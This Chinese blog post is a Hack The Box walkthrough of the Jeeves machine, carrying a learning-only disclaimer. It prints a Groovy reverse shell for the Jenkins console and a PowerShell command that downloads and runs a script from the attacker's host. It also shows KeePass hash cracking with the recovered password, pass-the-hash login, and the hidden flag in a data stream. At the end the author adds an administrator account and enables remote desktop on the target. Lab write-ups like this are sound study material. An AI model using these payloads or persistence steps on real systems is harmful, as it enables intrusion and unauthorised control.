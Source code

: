 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/m-S4DPJep4b9HAuVghp8Zg)

大余安全  

一个每日分享渗透小技巧的公众号![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCWsznInTj3b9TFYtTDIYG6lDGJZYYSv72NsVWF24Kjlo4MT29tEOQSg/640?wx_fmt=png)

  

  

大家好，这里是 **大余安全** 的第 **66** 篇文章，本公众号会每日分享攻防渗透技术给大家。

  

  

  

靶机地址：https://www.hackthebox.eu/home/machines/profile/114

靶机难度：中级（5.0/10）

靶机发布日期：2017 年 12 月 20 日

靶机描述：

Jeeves is not overly complicated, however it focuses on some interesting techniques and provides a great learning experience. As the use of alternate data streams is not very common, some users may have a hard time locating the correct escalation path.

请注意：对于所有这些计算机，我是通过平台授权允许情况进行渗透的。我将使用 Kali Linux 作为解决该 HTB 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

  

  

一、信息收集

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPorKEibwB1rWGSuvlJicIibK3nWnLY9lJejoNQkW0icoTXa14UicsKbwUibAzhHN71VzQicXugXj8YVPtQQ/640?wx_fmt=png)

可以看到靶机的 IP 是 10.10.10.63.....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPorKEibwB1rWGSuvlJicIibK30Ribca4Kqo1urQgGTdiaes6ibF5iboOnGfonbb1BtXmgWs838icW17VX8iaA/640?wx_fmt=png)

nmap 发现开放了 IIS server, RPC, Microsoft-ds 和 Jetty 服务...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPorKEibwB1rWGSuvlJicIibK3RVvtOnvU6JPb0fzsZmAvapMNiaMPwhU2l94Ohfjde8xN96GMj2sZ1Qw/640?wx_fmt=png)

直接对 50000 端口的 http 进行爆破，发现存在、/askjeeves 目录...80 端口没扫到什么有用的...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPorKEibwB1rWGSuvlJicIibK3dJsLacroY5zN8aFWaKkz1J4CQzlbsmI8ymW5CQD1Q5PYK0QEoJ7kyg/640?wx_fmt=png)

访问进来，发现存在 Jenkins Manage... 应该能上传 shell 的地方...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPorKEibwB1rWGSuvlJicIibK3cmImqzwG6eibn2csmpcrJ7beL5FaJuugialAt7otPzAicFicxCWbX6UOmA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPorKEibwB1rWGSuvlJicIibK3u0uXv4E4fPSTG2Ux5ERaDj7F3YSuYlCWuHoO8ptDu9GXbQc9cEgEfg/640?wx_fmt=png)

发下在 Script Console 存在 Jenkins 语句写入...

方法 1：

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPorKEibwB1rWGSuvlJicIibK3aUiaTAericUGG8KWzmXNxZUlTVjicR7kojE1ZC2FE3c21kUbBmrd4p0wQ/640?wx_fmt=png)

```
String host="10.10.14.18";
int port=6666;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

可以看到，直接获得低权 shell...

方法 2：

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPorKEibwB1rWGSuvlJicIibK3BsicPrnKLZvD1OCOMcr8RuM15wbrmtcUmLrYBZKIcsUFRKFupxXgc7Q/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPorKEibwB1rWGSuvlJicIibK30kSzCgNggeeAGIqmEJytgNL6GsAFfQy3Ll1wwcUrGGqO6L4sVz839g/640?wx_fmt=png)

```
cmd = """ powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.18/dayu.ps1') """
println cmd.execute().txt
```

可以看到利用 nishang 脚本进行提权... 成功

方然还可以利用 nc.exe 去提权... 等等

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPorKEibwB1rWGSuvlJicIibK3lQFlrNPgv8CqldylBcssD7ibSa7DVKLAvAZsvKC3vibvAUstTBezicr6w/640?wx_fmt=png)

成功获得 user.txt 信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPorKEibwB1rWGSuvlJicIibK3ZgjJwxYXAYrBUtTLnUNJBUhk4osvCXqPGibxWLkeB54icajG0wibWsGow/640?wx_fmt=png)

可以看到在 Documents 目录，看到 CEK.kdbx 的文件，本地开 smb 服务... 然后共享过来即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPorKEibwB1rWGSuvlJicIibK3wAOm9t6oVTcueTRkCjhZIFOeRaf4dpkQacj8BEPOEY9eUCUA3sMRbQ/640?wx_fmt=png)

keepass2john CEH.kdbx > dayu.hash 使用 keepass2john 从密钥文件中提取哈希值... 然后利用 john 破解哈希值...

```
moonshine1
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPorKEibwB1rWGSuvlJicIibK3QLwib1YNYeBiahk4iaC1xjia4BOicb4TsnSHpibpicTAy5hpw3S83CMmnBLlQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPorKEibwB1rWGSuvlJicIibK35cUJSTzXicBCHqm4zVMIIYicbH1YXatEWTRibUwdCKUqkbszabq9gO0Kg/640?wx_fmt=png)

获得密码 monshine1，可以访问密码管理器了，这里使用 keepass2 进入密码管理器... 成功进入...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPorKEibwB1rWGSuvlJicIibK32mOHibb7QsfRSibkXoLr1rQSkkYMt7rhB6WzqMbvrkG5XkbA2eQW7E9g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPorKEibwB1rWGSuvlJicIibK3vQTcrL2OQ6l4sl62pfCxZJBWkmViannY3QedicZMkBeibdlf4qO7iatgUw/640?wx_fmt=png)

发现了 administrator 密码... 发现登陆不上去，是错的...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPorKEibwB1rWGSuvlJicIibK3JWfD5ohFlib0y8gKxnIN7FOlW9NDYhyicl3DEDu9ha2UHHbyrkS8FGbg/640?wx_fmt=png)

这里可利用的是 Backup 的密码，这是 Windows NTLM 哈希，可以通过哈希值进行攻击...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPorKEibwB1rWGSuvlJicIibK3y0jOhL6aDWvtESOqQVA6JibwDCmcF8IHicn3XSguLkiaGaYTGGx76qayw/640?wx_fmt=png)

可以看到成功通过 winexe 来执行账号哈希值攻击... 成功登录...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPorKEibwB1rWGSuvlJicIibK3rBRqNWu8ODxVUJJwIIdXWjdEtnDk4vicmCN9b6C1bfho3aNWyh3sOBA/640?wx_fmt=png)

本地并没有看到 root.txt，却看到了 hm.txt 文件... 提示说 flag 在更深处... 继续挖坑...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPorKEibwB1rWGSuvlJicIibK3MX0YlicchTApeUZI1IX6WS96O9tI9bia1AGOCeS6c0TGIdfM2mnldqIw/640?wx_fmt=png)

隐藏在数据流中...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPorKEibwB1rWGSuvlJicIibK3ba9FR8EIC31NT3pRIndZqP9VSt2RP6MoKHPaLObfAaCoInh8stnVTQ/640?wx_fmt=png)

成功获得了 root.txt 文件...（虽然完成了任务，但是还没结束...）

最近有人说我文章很水，我很努力了，给你们拓展知识点了...

这是 HTB 上的靶机，在国外服务器上... 我们进去玩玩？？

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPorKEibwB1rWGSuvlJicIibK30pzWgGPVeEpptWXmwsR6iayA6zHaicc6ib1aHE0SvA8uxH9KSA9nclsxg/640?wx_fmt=png)

这里以管理员身份创建了新的用户 dayu... 然后提升 dayu 用户的权限... 拉倒 administrator 组里...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPorKEibwB1rWGSuvlJicIibK3xE9RIR2IcyLNmXZ0eQ8icYlh8lp5gnNibIIlP6icxtKNMFoicgic6iaOsPaw/640?wx_fmt=png)

然后在本地启动远程桌面允许...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPorKEibwB1rWGSuvlJicIibK3iczYviadwPRFHvBWNW5gfJkbJSkL6QXSc4lVXdyurp4tt3n9XmdDYkkw/640?wx_fmt=png)

最后需要告诉 Windows 靶机的防火墙允许我们远程桌面连接...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPorKEibwB1rWGSuvlJicIibK3t3kibdWzehib7M6Rnj2HHQeRNPQ3HmcexP10iaeH6bR1vz0P7uhibm3Ybg/640?wx_fmt=png)

输入前面创建的用户名密码即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPorKEibwB1rWGSuvlJicIibK3Ow1L5MwnaRY9Qz6vKIBTQ7DOhpBEzV0V8bss2ljeH8jJqbE8PQDbqA/640?wx_fmt=png)

可以看到进来了... 就看看哈，别搞事情...

  

  

  

进去太卡了，因为我的网络不是特别好... 可以在 administrator 桌面查看到数据流 hm.txt:root.txt 文件... 利用 get-item 查看即可...

由于我们已经成功得到 root 权限查看 user.txt 和 root.txt，因此完成了简单靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)